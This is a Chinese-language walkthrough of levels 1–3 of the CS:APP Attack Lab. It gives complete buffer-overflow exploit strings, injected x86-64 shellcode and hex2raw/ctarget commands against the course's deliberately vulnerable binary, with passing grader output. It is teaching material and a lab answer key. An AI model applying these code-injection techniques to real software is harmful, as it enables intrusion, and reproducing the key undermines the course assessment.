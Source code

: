 # Attack Lab

## 问题描述

【设定】现有两个存在 ***缓冲区溢出 (buffer overflow)*** 风险的 x86-64 可执行文件：

- `ctarget` 可能遭受 ***代码注入 (code injection)*** 攻击（对应第 1~3 关）。
- `rtarget` 可能遭受 ***ROP (return-oriented programming)*** 攻击（对应第 4~6 关）。
- [此处](http://csapp.cs.cmu.edu/3e/target1.tar)可下载这两个文件。本地运行时应开启 `-q` 选项，以避免连接评分服务器。

【任务】利用上述漏洞，植入攻击代码，改变程序行为。[此处](http://csapp.cs.cmu.edu/3e/attacklab.pdf)可下载详细说明。

## `ctarget`

### 第一关

函数 `getbuf()` 的 C 代码和汇编码分别为

```c
unsigned getbuf() {
  char buf[BUFFER_SIZE];
  Gets(buf);
  return 1;
}
```

```nasm
(gdb) disassemble getbuf 
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    rsp,0x28 ; 40
   0x00000000004017ac <+4>:     mov    rdi,rsp
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    eax,0x1
   0x00000000004017b9 <+17>:    add    rsp,0x28
   0x00000000004017bd <+21>:    ret    
End of assembler dump.
```

由此可见：旧栈顶（即 `R[rsp]` 的旧值）位于 `&buf[0]` 后 40 字节处。在调试器中，设断点于 `<+4>` 处，检查始于 `R[rsp]+40` 的 8 字节：

```shell
(lldb) x/1gx $rsp+40
0x5561dca0: 0x0000000000401976
```

此地址值的确为调用者 `test()` 中紧跟在 `call <getbuf>` 后的下一条指令的地址：

```nasm
(gdb) disassemble test 
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    rsp,0x8
   0x000000000040196c <+4>:     mov    eax,0x0
   0x0000000000401971 <+9>:     call   0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    edx,eax
; ...
```

故只需将 `touch1()` 的地址 `0x00000000004017c0` 植入始于 `buf[40]` 的 8 字节，逻辑上相当于在 C 代码中植入以下赋值语句：

```c
buf[40] = 0xc0;
buf[41] = 0x17;
buf[42] = 0x40;
buf[43] = buf[44] = buf[45] = buf[46] = buf[47] = 0x00;
```

具体步骤：

1. 创建含有以下内容（前 40 个字符相对随意，避开 `0x0a` 即 `\n` 即可）的 `exploit.txt` 文件：

   ```c
   /* buf[00,10) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[10,20) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[20,30) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[30,40) */ 30 31 32 33 34 35 36 37 38 39
   c0 17 40 00 00 00 00 00 /* address of touch1() */
   ```

1. 利用 `hex2raw` 将上述文件转化为字符串：

   ```shell
   $ ./hex2raw < exploit.txt > exploit-raw.txt
   ```

1. 利用 *管道* 将 *`hex2raw` 的输出* 绑定到 *`ctarget` 的输入*：

   ```shell
   $ ./ctarget -q -i exploit-raw.txt
   ```

1. 后两步可合并为

   ```shell
   $ cat exploit.txt | ./hex2raw | ./ctarget -q
   ```

最终得以下输出
```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 C0 17 40 00 00 00 00 00 
```

### 第二关

需要植入的指令为：
```gas
# exploit.s
movl  $0x59b997fa, %edi # cookie
pushq $0x004017ec       # address of touch2()
retq
```
先汇编，再反汇编：
```shell
$ gcc -c exploit.s && objdump -d exploit.o
```
得以下输出：
```
exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
   5:   68 ec 17 40 00          pushq  $0x4017ec
   a:   c3                      retq
```

为便于调试，按每行 8 字节排列，并以 `0x90` 即 `nop` 指令占位：
```c
/* exploit.txt */
/* 0x5561dc78 */ 90 90 90 90 90 90 90 90
/* 0x5561dc80 */ bf fa 97 b9 59 /* mov  */ 90 90 90
/* 0x5561dc88 */ 68 ec 17 40 00 /* push */ 90 90 90
/* 0x5561dc90 */ c3 /* retq */ 90 90 90 90 90 90 90
/* 0x5561dc98 */ 90 90 90 90 90 90 90 90
/* 0x5561dca0 */ 78 dc 61 55 00 00 00 00 /* 0x5561dca0 - 40 */
```

```shell
$ cat exploit.txt | ./hex2raw | ./ctarget -q
```

最终得以下输出：
```
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:90 90 90 90 90 90 90 90 BF FA 97 B9 59 90 90 90 68 EC 17 40 00 90 90 90 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00 
```

### 第三关

先用 `man ascii` 查到 `59b997fa` 的十六进制表示：

```
35 39 62 39 39 37 66 61
```

与前一关不同，这里不能直接将其写入 `getbuf()` 的帧内，而应将其压入栈内（并补一个空字符），故需植入的指令为：

```gas
# exploit.s
pushq $0x0 # 字符串尾
movabsq $0x6166373939623935, %rdi # 直接压栈无法编译
pushq %rdi                        # 故分作两步
movq  %rsp, %rdi # 设置 touch3() 的实参
pushq $0x4018fa  # touch3() 的地址
retq
```

先汇编，再反汇编，得以下输出：

```shell
$ gcc -c exploit.s && objdump -d exploit.o
```

得以下输出：

```
exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 bf 35 39 62 39 39    movabs $0x6166373939623935,%rdi
   7:   37 66 61 
   a:   57                      push   %rdi
   b:   48 89 e7                mov    %rsp,%rdi
   e:   6a 00                   pushq  $0x0
  10:   68 fa 18 40 00          pushq  $0x4018fa
  15:   c3                      retq
```

只需将前一关的地址略作修改：

```c
/* exploit.txt */
/* 0x5561dc78 */ 6a 00 /* pushq $0x0 */
/* 0x5561dc7a */ 48 bf 35 39 62 39 39 37 66 61 /* movabsq */
/* 0x5561dc84 */ 57 /* pushq %rdi */
/* 0x5561dc85 */ 48 89 e7 /* movq %rsp,%rdi */
/* 0x5561dc88 */ 68 fa 18 40 00 /* pushq $0x4018fa */ 
/* 0x5561dc8d */ c3 /* retq */ 90 90
/* 0x5561dc90 */ 90 90 90 90 90 90 90 90
/* 0x5561dc98 */ 90 90 90 90 90 90 90 90
/* 0x5561dca0 */ 78 dc 61 55 00 00 00 00
```

最终得以下输出：

```
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:6A 00 48 BF 35 39 62 39 39 37 66 61 57 48 89 E7 68 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00
```

